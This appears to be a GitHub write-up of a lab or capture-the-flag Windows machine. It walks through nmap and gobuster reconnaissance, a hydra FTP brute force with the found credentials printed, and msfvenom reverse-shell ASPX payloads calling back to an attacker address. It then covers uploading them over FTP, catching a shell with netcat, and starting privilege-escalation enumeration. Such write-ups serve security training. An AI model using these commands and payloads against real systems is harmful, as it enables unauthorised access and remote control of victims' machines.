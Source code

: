 <h1 align="center"><picture><img src = "https://github.com/user-attachments/assets/8309287c-1280-4c6c-aab7-4751ac0c2279"></picture></h1>

<h1><picture><img src="https://media2.giphy.com/media/QssGEmpkyEOhBCb7e1/giphy.gif?cid=ecf05e47a0n3gi1bfqntqmob8g9aid1oyj2wr3ds3mg700bl&rid=giphy.gif" width ="25"> </picture>Reconnaissance & Scanning</h1>

```bash
arp-scan -I eth0 --localnet --ignoredups
```
![image](https://github.com/user-attachments/assets/96c23aba-8922-4021-9daf-b626cd3c91aa)

```bash
ping -c 1 192.168.1.154
```
![image](https://github.com/user-attachments/assets/d28063e8-0e31-4da3-a932-cad363ed36ba)

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 192.168.1.180 -oG allports
```
![image](https://github.com/user-attachments/assets/7e2bca7c-88f6-4548-9b2c-7f3bb158aad3)

```bash
nmap -sCV -p21,80,135,139,445,49152,49153,49154,49155,49156,49157 192.168.1.180 -oN targeted
```
![image](https://github.com/user-attachments/assets/1e8cfde2-0bc6-40e0-b81d-bb7623cdf150)

<h1><picture><img src="https://media2.giphy.com/media/QssGEmpkyEOhBCb7e1/giphy.gif?cid=ecf05e47a0n3gi1bfqntqmob8g9aid1oyj2wr3ds3mg700bl&rid=giphy.gif" width ="25"> </picture>Vulnerability Assessment</h1>

<h2><picture><img src="https://media2.giphy.com/media/QssGEmpkyEOhBCb7e1/giphy.gif?cid=ecf05e47a0n3gi1bfqntqmob8g9aid1oyj2wr3ds3mg700bl&rid=giphy.gif" width ="25"> </picture>PORT 80</h2>

![image](https://github.com/user-attachments/assets/f5a410d8-838e-4e26-aaf3-5adee82a12f6)

``CRTL+U``
<br>
<br>
![image](https://github.com/user-attachments/assets/1ad23d93-a26a-4787-b8b8-d1a4b15e0d24)

### **Fuzzing**
```bash
gobuster dir -u http://192.168.1.180/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,py,php,sh,html,js
```
![image](https://github.com/user-attachments/assets/05ea476b-4c5b-4d69-a7ce-7100fca16a53)

```bash
whatweb https://192.168.1.180
```
![image](https://github.com/user-attachments/assets/a9485353-0de8-4b79-bd39-468b80a2a6aa)

### **we didn't find anything relevant**

<h2><picture><img src="https://media2.giphy.com/media/QssGEmpkyEOhBCb7e1/giphy.gif?cid=ecf05e47a0n3gi1bfqntqmob8g9aid1oyj2wr3ds3mg700bl&rid=giphy.gif" width ="25"> </picture>PORT 445</h2>

```bash
sudo nmap --script "vuln and safe" -p445 192.168.1.180
```
![image](https://github.com/user-attachments/assets/a10cfba9-81df-4752-8595-0cfb87186bdc)

### **not vulnerable to EternalBlue**

<h2><picture><img src="https://media2.giphy.com/media/QssGEmpkyEOhBCb7e1/giphy.gif?cid=ecf05e47a0n3gi1bfqntqmob8g9aid1oyj2wr3ds3mg700bl&rid=giphy.gif" width ="25"></picture>RPC Protocol</h2>

```bash
rpcclient -U "" -N 192.168.1.180
srvinfo
querydispinfo
enumdomusers
getdompwinfo
```
![image](https://github.com/user-attachments/assets/c1825bc6-33ed-4720-8da0-ee814e5c3b52)

### **we found nothing**

<h2><picture><img src="https://media2.giphy.com/media/QssGEmpkyEOhBCb7e1/giphy.gif?cid=ecf05e47a0n3gi1bfqntqmob8g9aid1oyj2wr3ds3mg700bl&rid=giphy.gif" width ="25"> </picture>PORT 21</h2>

### **Brute Force**
```bash
hydra -L /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -P /usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords.txt ftp://192.168.1.180
```
![image](https://github.com/user-attachments/assets/f87eb6f4-5b0e-4b8e-bcba-339876bf1268)

USER:    info
<br>
PASSWD:  PolniyPizdec0211

<h1><picture><img src="https://media2.giphy.com/media/QssGEmpkyEOhBCb7e1/giphy.gif?cid=ecf05e47a0n3gi1bfqntqmob8g9aid1oyj2wr3ds3mg700bl&rid=giphy.gif" width ="25"> </picture>Gaining Access</h1>

### **FTP Connection**
```bash
ftp 192.168.1.180
```
![image](https://github.com/user-attachments/assets/deac17fa-b655-4e1a-b01d-190d7f24df61)

We already have access via port 21, but in order to gain access to the machine we must upload our malicious file to obtain a more stable connection, remember that we are dealing with a windows machine but we do not know if it is 32 or 64 bits so we will have to create two files and upload them.

Win 64bits
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.228 LPORT=443 -f aspx -o win64.aspx
```

Win 32bits
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.228 LPORT=443 -f aspx -o win32.aspx
```
![image](https://github.com/user-attachments/assets/e91d426c-427f-44ce-b8c1-67f685f5f5cd)
![image](https://github.com/user-attachments/assets/9836bb42-361c-42d0-be6b-95c46d9c0444)

We will now upload our malicious files via ftp service
```bash
put win64.aspx
put win32.aspx
```
![image](https://github.com/user-attachments/assets/64d2625c-224c-4c5f-95de-4206de836e34)

we put ourselves in listening mode through port 443 that we configured in our malicious code and from the web we call our files waiting for a connection.

```bash
nc -nlvp 443
```
![image](https://github.com/user-attachments/assets/efc26a9b-fd32-4ac2-b3e1-8a3da1957847)
![image](https://github.com/user-attachments/assets/d84867ea-3b47-4c19-b5b5-2bf44b92c01d)
![image](https://github.com/user-attachments/assets/b19ac984-dd3f-4fb8-b752-76716226354e)
![image](https://github.com/user-attachments/assets/23a10d09-1f99-495a-bf64-c07d0fc70a8b)

```bash
whoami
systeminfo
```
![image](https://github.com/user-attachments/assets/33f56c3d-2715-41ac-9784-16838e9dd2b6)

we are looking for possible vulnerabilities that would allow us to elevate privileges

![image](https://github.com/user-attachments/assets/0acbfa09-e55f-4641-b24a-b9f0413c8039)
![image](https://github.com/user-attachments/assets/ba2e0721-98c2-4add-bbdf-f65ad49a4f98)
![image](https://github.com/user-attachments/assets/dd5af650-cea6-4d71-863f-4aec5c2e74fc)
![image](https://github.com/user-attachments/assets/652d3252-9497-4509-a954-d7800711cac4)
![image](https://github.com/user-attachments/assets/d934c91a-9a51-4ee9-a6c2-1c85eb3c8996)
we are looking for
![image](https://github.com/user-attachments/assets/33011923-ceab-430f-bf75-435c7db9d2c6)
![image](https://github.com/user-attachments/assets/28b173c4-5065-4b69-947e-de5e760b4722)

